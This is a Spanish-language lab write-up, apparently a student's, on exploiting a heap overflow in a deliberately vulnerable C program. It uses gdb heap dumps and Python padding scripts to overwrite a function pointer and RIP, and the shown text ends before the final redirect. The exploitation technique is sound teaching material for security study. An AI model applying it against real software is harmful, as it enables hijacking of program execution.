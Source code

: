 # HeapOverflow Carlos Dominguez
En esta práctica seguiremos los siguientes pasos para lograr un heap-overflow que nos permite abrir una foto.

Empecemos creando y ejecutando el contenedor Docker donde se harán las pruebas:
```
docker build -t heap .
docker run --rm -it --name heap heap
```
Una vez estamos dentro podemos analizar un poco el código vulnerable, el código que vaamos a romper:
```
int main(int argc, char **argv) {
    struct sdata *smidat;
    struct sfp *f;

    smidat = malloc(sizeof(struct sdata));
    f = malloc(sizeof(struct sfp));
    f->fp = fesperofuera;

    printf("data: está en [%p], el puntero fp está en [%p]\n", smidat, f);

    strcpy(smidat->buffer, argv[1]);

    f->fp();

    free(smidat);
    free(f);

    return 0;
}
```
Vemos que en ningún lugar del main vamos a llamar a la función esta
```
void fentrar() {
    printf("Pasando\n");
}
```
De forma que nuestra intención inicial como atacantes va a ser concseguir la ejecución de esta. Otro detalle que debemos destacar es que vamos a tener un struct que almacena una cadena de carácteres de tamaño 64 bytes, de forma que vamos a ver que pasa  en una ejecución normal vs una ejecución que la desborde:
![image](https://github.com/user-attachments/assets/ccc39f58-8e96-48d2-9c69-67d6398bb735)

Vemos que en la ejecución normal llegamos al final del programa ejecutando todo sin problemas, pero al forzar el overflow vemos que al llegar a la función
```
strcpy(smidat->buffer, argv[1]);
```
El sistema nos reporta que hemos accedido a una posición fuera de nuestro rango con
```
Segmentation fault (core dumped)
```
Por otro lado, destaquemos lo que hace el otro struct que almacenamos en el heap. Este guarda un puntero a una función, de forma que en el main se usa para que apunte a la función espero_fuera y luego llamar a esta desde el puntero.

Ahora vamos a ejecutar un debugger (gdb) para analizar el comportamiento de este programa:
```
gdb ./heapexample
```
Colocamos un break point en el punto en el que se llama a la función espero_fuera desde el puntero f:
![image](https://github.com/user-attachments/assets/b05b7378-974a-4a6b-a498-de59c007f942)

Tras esto, vamos a lanzar el comando
```
info proc map
```
Que nos muestra información sobre el proceso en ejecución. En concreto busacamos ver como se está organizando la memoria:
![image](https://github.com/user-attachments/assets/cba2b7e9-10ed-4910-a753-1099d54a5bcf)

En concreto, buscamos analizar el estado del heap, que en mi caso se encuentra entre las siguientes direcciones de memoria
```
Start Addr         End Addr    Size           Offset objfile
0x405000           0x426000    0x21000        0x0 [heap]
```
Ahora vamos a mostrar en detalle el contenido de esta zona de memoria, para ello ejecutamos:
```
x/120x 0x405000 
```
Donde el primer argumento expresa cuantas direcciones vamos a analizar y el segundo desde que posición lo haremos:
![image](https://github.com/user-attachments/assets/7c62b78d-ea3e-4ed1-bda8-f2f4a869f2de)

Aquí deberiamos buscar la cadena que hemos introducido "XXXX" que en hexadecimal sería "0x58585858", pero no la vemos.
Entonces vamos a aumentar el tamaño de direcciones que checkeamos:
```
x/240x 0x405000 
```
Con resultado: 
![image](https://github.com/user-attachments/assets/47d34e3b-5f8e-4d77-a450-71df0be9c8f7)

Donde ya podemos ver la cadena que buscabamos, así como la posición en la que comienza la función espera_fuera:
![image](https://github.com/user-attachments/assets/0f8903e0-2118-46a6-977b-e7b2bc6b40cf)

Para ubicar mejor donde empieza la función usaremos:
```
disass fesperofuera
```
![image](https://github.com/user-attachments/assets/134b4512-1d89-4c09-b03b-1ecde7b49cdc)

Ahora que tenemos la información que buscabamos ya podemos salir del debbuger con 
```
q
```

Ahora vamos a ejecutar un pequeño programa de python que nos deje analizar el comportamiento de la memoria ante un desbordamiento:
```
program.1:
#!/usr/bin/python3
print('X' * 90)
```

Antes de nada vamos a darle permisos y probar que funciona como es debido:
![image](https://github.com/user-attachments/assets/a91a2aab-a6de-4803-b5e0-0f7f9c9358ea)

Una vez vemos que funciona vamos a ejecutarlo para que nos de la entrada esperada de nuestro código vulnerable:
```
./heapexample $(./pp1)
```
Donde nuevamente vemos que hay un problema por desbordamiento:
![image](https://github.com/user-attachments/assets/5129e284-6665-4e61-b118-577ce1e6ff00)

Ahora veamos dentro de gdb que esta sucediendo (ejecutamos todos los pasos anteriores hasta justo antes de hacer run XXXX) ejecutando 
```
run $(program.1)
```
y volvemos a analizar el heap:
![image](https://github.com/user-attachments/assets/a34704fd-379a-45d8-b6a3-154d8f9c418b)

Viendo que hemos sobreescrito la primera instrucción de fesperandofuera.

¿Y como podríamos aprovechar esto?

Para ellos, vamos a volver a ver como se organiza el heap:
![image](https://github.com/user-attachments/assets/0d91f6a3-bfa4-4d16-bf19-cb0283f072f9)

Donde vemos que el número máximo de carácteres que podemos insertar es 
```
0x4052f0 (donde empieza fesperofuera) - 0x4052a0 (donde empieza el buffer) = 80
```

Por tanto, vamos a ver que pasa al introducir una cadena de este tamaño con el siguiente programa de python:
```
program.2:
#!/usr/bin/python3
print('X' * 70 + 'YAYBYCYDYEYFYG')
```
De forma que deberíamos prestar especial atencion a la última parte de la cadena "YFYG" = 0x47594659. Vamos a ver donde se sobreescribe esto ejecutando:
```
gdb -q ./heapexample
(gdb) run $(./program.2)
```
Y analicemos la memoria en el heap:

![image](https://github.com/user-attachments/assets/34b01a17-d6d2-488f-a2d5-2de408f73f66)

Donde podemos ver que hemos sobreescrito la zona de la funcion fesperofuera con la cadena "0x47594659" = YFYG (little endian).

Por otro lado, tras ejecutar con esta entrada si observamos los registros del sistema con:
```
info registers
```
vemos que hemos sobreescrito el RIP con esta cadena:
![image](https://github.com/user-attachments/assets/32f202a6-1c07-4c59-8ab4-3aeb843ac220)

Ahora vamos a refinar esto un poco más con el siguiente programa de Python (observar que "CDEF" = 0x46454443):
```
program.3:
#!/usr/bin/python3
print('X' * 80 + 'CDEF')
```
Donde rellenamos los primeros registros de la misma forma siempre, ya que solo nos importa sobreescribir el registro RIP. De esta forma, repetimos los pasos anteriores y vemos que pasa en el heap:
```
gdb -q ./heapexample
(gdb) run $(./program.3)
```
![image](https://github.com/user-attachments/assets/4c45454c-09ab-4534-9946-2ea11bf6a6d5)

También vemos lo que sucede con los registros:
```
info registers
```
![image](https://github.com/user-attachments/assets/38a0f883-0836-4244-b485-4b103762555c)

¿Cómo podríamos aprovechar esto?

Vamos a intentar ejecutar la función "fentrar" escribiendo la instrucción de inicio de esta donde debería empezar la función "fesperofuera". Para ello, primero veamos el código ensamblador de esta función con:
```
gdb -q ./heapexample
(gdb) disass fentrar
```

![image](https://github.com/user-attachments/assets/17cdf647-e044-405c-96ba-a982fecbd9fa)





